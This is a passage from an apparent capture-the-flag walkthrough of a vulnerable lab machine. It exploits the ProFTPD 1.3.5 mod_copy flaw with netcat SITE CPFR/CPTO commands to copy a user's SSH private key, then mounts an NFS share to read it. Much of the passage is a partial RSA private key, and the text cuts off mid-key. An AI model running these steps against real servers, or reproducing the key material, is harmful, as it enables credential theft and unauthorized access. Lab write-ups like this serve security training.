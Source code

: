 Let us look for verunablities for this version: ```searchsploit proftpd 1.3.5```

??? output "nmap output"
    ``` sh
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                    |  Path
    -------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                         | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                               | linux/remote/36803.py
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                           | linux/remote/49908.py
    ProFTPd 1.3.5 - File Copy                                                                         | linux/remote/36742.txt
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
    ```

Let's exploit ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) and copy Kenobi's private key using SITE CPFR and SITE CPTO commands:

``` sh
nc 10.10.153.226 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.153.226]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Lets mount the /var/tmp directory to our machine

``` sh
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.153.226:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cat id_rsa
```

??? output "id_rsa content"
    ``` sh
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
    qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
    U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
    dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
    y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
    otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
    ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
    dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
    bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
    tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
    YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
    bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
    t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
    rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
    dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
    mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
    SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
    dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
    u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph